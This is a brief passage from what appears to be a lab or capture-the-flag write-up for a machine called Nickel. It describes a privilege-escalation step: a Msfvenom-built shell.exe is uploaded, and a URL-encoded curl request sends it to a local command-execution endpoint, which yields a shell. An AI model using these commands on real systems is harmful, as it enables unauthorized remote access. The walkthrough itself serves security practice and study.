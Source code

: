 I created shell.exe using Msfvenom  and uploaded to the server.

![urlencoder.png](Nickel%20cff91a47fb794eae8107f3436b0f1748/urlencoder.png)

I encoded the command: `cmd /c C:\Users\ariah\Music\shell.exe` using url encoder.

```bash
ariah@NICKEL C:\Users\ariah\Music>curl http://localhost/?cmd%20%2Fc%20C%3A%5CUsers%5Cariah%5CMusic%5Cshell.exe
```

I executed the curl command and got the shell.

![root.png](Nickel%20cff91a47fb794eae8107f3436b0f1748/root.png)
